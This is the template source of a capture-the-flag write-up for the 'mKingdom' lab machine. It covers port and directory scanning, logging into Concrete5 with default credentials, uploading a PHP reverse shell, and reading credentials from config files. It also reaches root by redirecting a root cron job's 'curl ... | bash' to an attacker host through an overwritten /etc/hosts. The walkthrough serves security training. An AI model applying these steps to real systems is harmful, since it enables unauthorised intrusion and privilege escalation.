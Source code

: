 {% from "macros.html" import console, image, text, code, list, link, header, script, imageModal %}

{{imageModal()}}

{{header("Enumeration", "enumeration")}}

{{text("We perform a basic port scan.")}}

{{console("nmap -T5 -p- -sV 10.10.216.30", "Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-20 20:12 CET
Nmap scan report for 10.10.216.30
Host is up (0.080s latency).
PORT   STATE SERVICE VERSION
85/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))

Nmap done: 1 IP address (1 host up)")}}

{{text("We find one open port running an HTTP service.")}}

{{text("At <code class='bg-gray-300 rounded-md px-1'>http://10.10.216.30:85</code>, we are greeted with a taunting message.")}}

{{image("../../static/writeups/mkingdom/images/000001.jpg")}}

{{text("Next, I scanned for hidden directories.")}}

{{console("gobuster dir -u http://10.10.216.30:85 -w /usr/share/wordlists/dirb/common.txt", "===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.216.30:85
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 283]
/.htpasswd            (Status: 403) [Size: 288]
/.htaccess            (Status: 403) [Size: 288]
/app                  (Status: 301) [Size: 312] [--> http://10.10.216.30:85/app/]
/index.html           (Status: 200) [Size: 647]
/server-status        (Status: 403) [Size: 292]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================")}}

{{text("We discover the <code class='bg-gray-300 rounded-md px-1'>/app</code> directory.")}}

{{text("It contains a button that redirects us to <code class='bg-gray-300 rounded-md px-1'>/app/castle</code>.")}}

{{image("../../static/writeups/mkingdom/images/000002.jpg")}}

{{header("Shell as www-data", "asdf")}}

{{text("We identify the CMS as <code class='bg-gray-300 rounded-md px-1'>Concrete5</code> with version <code class='bg-gray-300 rounded-md px-1'>8.5.2</code>.")}}

{{text("We search for an exploit for this version.")}}

{{text("We find this article.")}}

{{link("https://vulners.com/hackerone/H1:768322", "https://vulners.com/favicon.ico", "Concrete CMS: Remote Code Execution (Reverse Shell)")}}

{{text("This exploit requires admin permissions.")}}

{{text("Running <code class='bg-gray-300 rounded-md px-1'>Gobuster</code> again reveals a login page at <code class='bg-gray-300 rounded-md px-1'>/app/castle/index.php/login</code>.")}}

{{image("../../static/writeups/mkingdom/images/000003.jpg")}}

{{text("Normally, I would attempt to brute-force this form, but that's unnecessary here.")}}

{{text("We can search for Concrete 5 default username which is <code class='bg-gray-300 rounded-md px-1'>admin</code> and after guessing the password which is <code class='bg-gray-300 rounded-md px-1'>password</code>, we successfully log in.")}}

{{image("../../static/writeups/mkingdom/images/000004.jpg")}}

{{text("Following the article, we allow PHP files, upload a reverse shell, and execute it.")}}

{{text("In <code class='bg-gray-300 rounded-md px-1'>System & Settings</code>, navigate to <code class='bg-gray-300 rounded-md px-1'>Allowed File Types</code>.")}}

{{text("Add <code class='bg-gray-300 rounded-md px-1'>PHP</code> to the list of allowed file types.")}}

{{image("../../static/writeups/mkingdom/images/000005.jpg")}}

{{text("Next, we upload a <code class='bg-gray-300 rounded-md px-1'>PHP PentestMonkey</code> reverse shell obtained from <code class='bg-gray-300 rounded-md px-1'>revshells.com</code>.")}}

{{image("../../static/writeups/mkingdom/images/000006.jpg")}}

{{text("Once uploaded, we set up a listener and execute the uploaded file by doing to the correct URL.")}}

{{image("../../static/writeups/mkingdom/images/000007.jpg")}}

{{text("This grants us a reverse shell.")}}

{{image("../../static/writeups/mkingdom/images/000008.jpg")}}

{{header("Shell as toad", "shell-as-toad")}}

{{text("In <code class='bg-gray-300 rounded-md px-1'>/var/www/html/app/castle/application/config</code>, we find a <code class='bg-gray-300 rounded-md px-1'>database.php</code> file containing the credentials for the <code class='bg-gray-300 rounded-md px-1'>toad</code> user.")}}

{{image("../../static/writeups/mkingdom/images/000009.jpg")}}

{{header("Shell as mario", "shell-as-mario")}}

{{text("In the current user's home directory, we find a base64-encoded string. Decoding it reveals another user's password.")}}

{{console("cat .bashrc", "...
export PWD_token='[REDACTED]'")}}

{{text("From <code class='bg-gray-300 rounded-md px-1'>/etc/passwd</code>, we identify another user, <code class='bg-gray-300 rounded-md px-1'>mario</code>. Logging in as this user succeeds.")}}

{{header("Shell as root", "shell-as-root")}}

{{text("I couldn't find anything interesting and running <code class='bg-gray-300 rounded-md px-1'>linpeas</code> also didn't help.")}}

{{text("I downloaded <code class='bg-gray-300 rounded-md px-1'>pspy64</code> from my machine using <code class='bg-gray-300 rounded-md px-1'>http.server</code> together with <code class='bg-gray-300 rounded-md px-1'>wget</code> and ran it, trying to see any background processes.")}}

{{text("Remember to be in the <code class='bg-gray-300 rounded-md px-1'>/tmp</code> directory, otherwise you won't have neccessary permissions to write this file.")}}

{{text("We use <code class='bg-gray-300 rounded-md px-1'>chmod +x pspy64</code> and finally run it.")}}

{{console("./pspy64", "...
2024/11/21 10:59:01 CMD: UID=0     PID=2426   | bash 
2024/11/21 10:59:01 CMD: UID=0     PID=2425   | curl mkingdom.thm:85/app/castle/application/counter.sh 
2024/11/21 10:59:01 CMD: UID=0     PID=2424   | /bin/sh -c curl mkingdom.thm:85/app/castle/application/counter.sh | bash >> /var/log/up.log  
2024/11/21 10:59:01 CMD: UID=0     PID=2423   | CRON 
...")}}

{{text("If we were able to modify the <code class='bg-gray-300 rounded-md px-1'>mkingdom.thm</code> ip address to our own, we should be able to download a reverse shell from our machine and execute it instead.")}}

{{text("We have write permissions to <code class='bg-gray-300 rounded-md px-1'>/etc/hosts</code> so we should be able to do just that.")}}

{{console("echo 'OUR_IP' > /etc/hosts")}}

{{image("../../static/writeups/mkingdom/images/000010.jpg")}}

{{text("We have to create the same directories from which the file gets downloaded, so <code class='bg-gray-300 rounded-md px-1'>/app/castle/application</code> and create a reverse shell with the name <code class='bg-gray-300 rounded-md px-1'>counter.sh</code>.")}}

{{text("After that, we run a python http server with <code class='bg-gray-300 rounded-md px-1'>python3 -m http.server 85</code> and wait for our file to get downloaded.")}}

{{text("Remember to use port 85, since it's the port which the curl command uses.")}}

{{console("python3 -m http.server 85", "Serving HTTP on 0.0.0.0 port 85 (http://0.0.0.0:85/) ...
10.10.216.30 - - [21/Nov/2024 17:16:03] 'GET /app/castle/application/counter.sh HTTP/1.1' 200 -")}}

{{text("File gets successfully downloaded, and we get a reverse shell as <code class='bg-gray-300 rounded-md px-1'>root</code>.")}}

{{text("One more thing, we have to use <code class='bg-gray-300 rounded-md px-1'>/usr/lib/klibc/bin/cat</code> instead of just cat to read the flag.")}}

{{text("Alternativally, use <code class='bg-gray-300 rounded-md px-1'>tac root.txt</code>.")}}

{{image("../../static/writeups/mkingdom/images/000011.jpg")}}

{{script()}}